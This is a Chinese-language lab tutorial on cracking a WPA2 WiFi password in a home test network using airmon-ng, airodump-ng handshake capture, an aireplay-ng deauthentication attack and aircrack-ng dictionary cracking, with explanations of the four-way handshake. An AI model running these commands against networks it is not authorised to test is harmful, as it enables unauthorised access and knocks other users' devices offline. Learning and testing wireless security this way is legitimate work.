









## 免责声明

## 本文所有实验均在个人搭建的内网测试环境中进行，仅用于学习网络安全技术原理，请勿在未授权的网络环境中进行测试，否则可能涉及违法行为

## 设备要求

- 一台装有kali的机器（推荐使用虚拟机）
- 一个可以监听的网卡（我使用的是RT3070L无线网卡）

## 爆破原理解释

先通过监听模式抓取 WPA2 网络（方法主要针对 WPA2 网络，对 WPA3 基本无效）在设备连接时产生的握手数据包（Handshake），然后利用密码字典对可能的密码逐个进行计算验证。如果计算结果与握手数据匹配，则说明该密码正确（这种方式属于字典暴力破解，因此破解成功率取决于字典内容和计算能力）

## 破解流程大致如下

1. 开启网卡监听模式
2. 扫描周围 WiFi
3. 抓取目标 WiFi 的握手包
4. 使用密码字典进行离线破解
5. 如果字典中的密码匹配成功，则得到 WiFi 密码

## 另外说明一点

Kali 自带的密码字典虽然很大，但有两个问题

- 破解速度会非常慢
- 里面不一定包含测试 WiFi 的密码

因此在本次实验中，我使用的是自己编写的密码字典 txt 文件

## 准备工作

### Stp1：首先确保在你的网卡连接上虚拟机，并处于监听状态

使用以下命令查看



我这里是没有处于监听状态，使用如下命令开启监听

1.先关闭干扰进程

```bash
sudo airmon-ng check kill
```

2.启动监听模式

```bash
sudo airmon-ng start wlan0
```

3.验证是否成功

```bash
iwconfig
```

看到以下的显示，即为正确打开监听模式



关闭监听模式（用完记得恢复）

```bash
sudo airmon-ng stop wlan0mon
sudo systemctl start NetworkManager
```

### Stp2：在桌面新建一个文件夹，用于存放抓到的握手包以及密码字典

1.创建文件夹（每个人的文件路径不同，之后的路径也不同，需要注意！）

```bash
mkdir /home/kali/桌面/wifi_test
```

2.创建密码字典

```bash
touch /home/kali/桌面/wifi_test/password.txt
```

3.编辑你自己的密码字典(确保里面有需要爆破的WiFi密码)



## 实战开始

### Stp1：扫描周围 WiFi

使用如下命令扫描附近无线网络

```bash
sudo airodump-ng wlan0mon
```

会看到以下情景（下图框选的是本次爆破的 WiFi 名称）



需要记录两个信息：BSSID，ESSID，CH（可以复制到一个你记得住的地方，一会要用）

记录完成后按，`Ctrt + C`结束扫描

### Stp2：开始抓取握手包

输入以下命令，开始抓包

```bash
sudo airodump-ng -c 换成你的信道的数字 --bssid 这里替换成你的BSSID -w /home/kali/桌面/wifi_test/handshake wlan0mon
```

参数解释：

| 参数 | 作用 |
| --- | --- |
| -c | 指定信道 |
| --bssid | 目标 WiFi 的 MAC 地址 |
| -w | 抓包文件保存路径 |

如果成功捕获到 WAP 握手包，界面上会出现下图的情况


出现上图的 WAP 的信息后，说明抓包成功

也可以和我下图一样，在刚刚创建的文件夹里打开终端



### 原理解释

当设备连接到 **WPA2 WiFi** 时，客户端与路由器之间会进行一次认证过程，这个过程叫做 **4-Way Handshake（四次握手）**

简单来说，这个过程的作用是：

- 验证客户端是否知道正确的 WiFi 密码
- 同时生成通信所需的加密密钥

整个流程大致如下：

1. 路由器向客户端发送随机数
2. 客户端根据 **WiFi密码 + 随机数** 计算认证信息
3. 客户端把计算结果发送给路由器
4. 路由器验证是否正确

如果计算结果正确，设备就可以成功连接 WiFi

在这个过程中，会产生一些认证数据包，这些数据包就是 **Handshake（握手包）**

需要注意的一点是：

握手包 **不会直接包含 WiFi 密码**，但它包含了用于验证密码的认证数据

如果你和我一样，等了很久，都没有出现WPA的相关信息，可以强制设备重新连接来获取

### 强制设备重新连接（如果没抓到包的可以做，之前抓到了，可以跳过此步骤）

如果一直抓不到握手包，可以使用 **deauth 攻击**让设备重新连接

`Ctrl + Shift + T`新开一个终端，输入以下命令：

```bash
sudo aireplay-ng -0 10 -a 换成你BSSID的地址 wlan0mon
```

执行后，连接 WiFi 的设备会被踢下线并重新连接

重新连接时就会产生新的 **握手包 （也就是下面的这个红色框的 WPA 信息）**



当抓到握手包后，可以在抓包终端按`Ctrl + C`结束

如果以上的步骤还是不行，那就直接使用你的手机，断开并重新连接到这个WiFi（这样做100%成功，因为攻击的目的是让手机被动的下线在重连）

### 参数解释：

| 参数 | 作用 |
| --- | --- |
| -0 | deauth攻击 |
| 10 | 攻击次数 |
| -a | 目标MAC |

### 原理解释

在 `airodump-ng` 界面下方会显示 **STATION** 列表，这里是已经连接到该 WiFi 的设备 MAC 地址  
在使用 `aireplay-ng` 发送 deauth 时，可以把其中一个设备的 MAC 填入 `-c` 参数，用于强制该设备断开并重新连接 WiFi，从而触发新的握手包

此时目录下会生成类似文件（如下图所示）



### stp3:开始字典破解

在这里打开终端



接下来使用 **aircrack-ng** 进行密码破解，命令如下

```bash
sudo aircrack-ng -w /home/kali/桌面/wifi_test/password.txt -b 此处换成刚刚获取的BSSID handshake-01.cap
```

提示：如果你前面的e失败次数较多，那么大概率会有handshake-02.cap这样的包，最终只要选对了正确的包即可

### 参数解释：

| 参数 | 作用 |
| --- | --- |
| -w | 密码字典 |
| -b | 目标WiFi BSSID |

之后，程序会不断尝试字典中的密码，直至成功

成功后的画面如下（正真的密码我打马赛克了，所以是文字的形式显示的）



由于之前的WiFi密码已经包含在内了，所以我这里的速度会很快

至此，本实验到此结束
